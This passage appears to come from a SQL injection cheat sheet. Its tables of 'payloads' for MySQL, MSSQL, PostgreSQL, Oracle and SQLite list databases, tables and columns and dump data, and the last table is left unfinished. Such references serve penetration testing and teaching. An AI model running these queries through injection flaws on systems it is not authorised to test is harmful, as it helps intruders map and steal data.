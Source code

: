 | DBMS       | Payload                                                                          |
|------------|----------------------------------------------------------------------------------|
| MySQL      | SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA <br> SELECT db FROM mysql.db |
| MSSQL      | SELECT name FROM master.sys.databases <br> SELECT name FROM master..sysdatabases |
| PostgreSQL | SELECT datname FROM pg_database <br> SELECT DISTINCT(schemaname) FROM pg_tables  |
| Oracle     | SELECT OWNER FROM (SELECT DISTINCT(OWNER) FROM SYS.ALL_TABLES)                   |
| SQLite     | N/A                                                                              |


* * *

# List Tables

| DBMS       | Payload                                                              |
|------------|----------------------------------------------------------------------|
| MySQL      | SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='[DBNAME]' <br> SELECT database_name,table_name FROM mysql.innodb_table_stats WHERE database_name='[DBNAME]'                                   |
| MSSQL      | SELECT table_name FROM information_schema.tables WHERE table_catalog='[DBNAME]' <br> SELECT name FROM [DBNAME]..sysobjects WHERE xtype='U'                                                                           |
| PostgreSQL | SELECT tablename FROM pg_tables WHERE schemaname = '[SCHEMA_NAME]' <br> SELECT table_name FROM information_schema.tables WHERE table_schema='[SCHEMA_NAME]'                                                        |
| Oracle     | SELECT OWNER,TABLE_NAME FROM SYS.ALL_TABLES WHERE OWNER='[DBNAME]'   |
| SQLite     | SELECT tbl_name FROM sqlite_master WHERE type='table'                |

* * *

# List Columns

| DBMS       | Payload                                                                                                                    |
|------------|----------------------------------------------------------------------------------------------------------------------------|
| MySQL      | SELECT column_name,column_type FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='[TABLE_NAME]' AND table_schema='[DBNAME]' |
| MSSQL      | SELECT COL_NAME(OBJECT_ID('[DBNAME].[TABLE_NAME]'), [INDEX])                                                               |
| PostgreSQL | SELECT column_name,data_type FROM information_schema.columns WHERE table_schema='[DBNAME]' AND table_name='[TABLE_NAME]'   |
| Oracle     | SELECT COLUMN_NAME,DATA_TYPE FROM SYS.ALL_TAB_COLUMNS WHERE TABLE_NAME='[TABLE_NAME]' AND OWNER='[DBNAME]'                 |
| SQLite     | SELECT MAX(sql) FROM sqlite_master WHERE tbl_name='[TABLE_NAME]' <br> SELECT name FROM PRAGMA_TABLE_INFO('[TABLE_NAME]')   |

* * *

# Dump Data

| DBMS       | Payload                                                                          |
|------------|----------------------------------------------------------------------------------|
| MySQL      | SELECT [COLUMN_NAME] FROM [DBNAME].[TABLE_NAME] |
| MSSQL      |  |
| PostgreSQL |   |
| Oracle     |                |
| SQLite     | N/A     
